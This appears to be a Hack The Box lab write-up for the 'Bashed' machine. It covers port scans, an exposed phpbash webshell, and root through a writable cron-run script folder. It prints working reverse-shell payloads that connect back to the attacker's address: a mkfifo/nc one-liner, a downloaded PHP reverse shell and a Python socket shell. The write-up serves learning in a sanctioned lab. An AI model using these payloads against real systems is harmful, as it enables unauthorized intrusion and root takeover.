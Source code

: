 # Bashed - hack the box

[![AgdMvj.md.png](https://s2.ax1x.com/2019/04/03/AgdMvj.md.png)](https://imgchr.com/i/AgdMvj)

## Introduction

Target: 10.10.10.68 (OS: Linux)

Kali linux: 10.10.16.44

## Information Enumeration

Firstly, detect the open ports:

```    
# Nmap 7.70 scan initiated Wed Apr  3 20:48:43 2019 as: nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.68
Host is up (0.31s latency).
Not shown: 39680 closed ports, 25854 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```

Only port 80 is open, it may be an easy box. And the truth is that it is really an easy box.

Then, detect the services of the port 80, it may be a kind of http service.

```
# Nmap 7.70 scan initiated Wed Apr  3 20:55:27 2019 as: nmap -sC -sV -p 80 -oA services 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Nothing special. Then access the http service and find more.

## Exploit

### Http

Access to `http://10.10.10.68`, and it seems to be a simple blog which talks about `phpbash`.

![AgfJCd.png](https://s2.ax1x.com/2019/04/04/AgfJCd.png)

`phpbash` seems to be a webshell tool. And there is a github repository [phpbash](https://github.com/Arrexel/phpbash) introduces the tool. The introduction of the repo is to drop the file to target and access it by `http://ip/uploads/phpbash.php`. Try to access `http://10.10.10.68/uploads/phpbash.php`. But the file seems not to be here.

Utilize the dirbuster to enumerate the directories.

![AgfTPJ.png](https://s2.ax1x.com/2019/04/04/AgfTPJ.png)

Wow. Find it and open the file `phpbash.php`. Here is the webshell. I have tried to reverse shell by `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f`. But the shell cannot be return. Whatever, I can obtain the user.txt.

![AghFMt.png](https://s2.ax1x.com/2019/04/04/AghFMt.png)

It is convenient to get the reverse shell. So I try to upload a php shell to the target machine. The detailed php script can be found [here](https://github.com/neal1991/htb/blob/master/Bashed/php-reverse-shell.php). And I server the php script by `python -m SimpleHTTPServer 80`. Then download the php script from the target machine. To ensure the script can be written to the target machine. Select a path can be written, for example: `/tmp`.

[![AghBsx.png](https://s2.ax1x.com/2019/04/04/AghBsx.png)](https://imgchr.com/i/AghBsx)

`wget http://10.10.16.44/php-reverse-shell.php`

Then in the kali, set the `nc` listen to port 1234:

`nc -lvnp 1234`

Execute the php script in the target machine `php php-reverse-shell.php`. OK. We obtain the reverse shell.

[![AghhQI.png](https://s2.ax1x.com/2019/04/04/AghhQI.png)](https://imgchr.com/i/AghhQI)

## Privilege escalation

Obtain the user permission is quite easy, and it is not difficult to obtain the root permission. Utilize `sudo -l` to see the permissions of the user. Something interesting found. We can switch to `scriptmanager` user without password.

![Ag4cn0.png](https://s2.ax1x.com/2019/04/04/Ag4cn0.png)

```
su -u scrriptmanager bash -i
```

Try to enumerate the files. And I find an interesting folder inside `/scripts`. There are two files `test.py` and `test.txt`. Try to display the content of `test.py`.

[![AghxO0.png](https://s2.ax1x.com/2019/04/04/AghxO0.png)](https://imgchr.com/i/AghxO0)

The python script is quite straightforward. It just writes `testing 123!` to the file `test.txt`. And if we see the attributes of `test.txt`, the modified time of the file changes each minute. And the file is owned by root. It seems that `root` will execute the python scripts in `/scripts` folder each minute. So utilize a python script to reverse the root shell(according to the information above, the python version of the target machine is 2.7):

```python 
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.44",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Set the kali listen to port 4444. Download the python script in the target machine and execute. Now, root shell is obtained.

![AgICRJ.png](https://s2.ax1x.com/2019/04/04/AgICRJ.png)

[![AgIks1.png](https://s2.ax1x.com/2019/04/04/AgIks1.png)](https://imgchr.com/i/AgIks1)




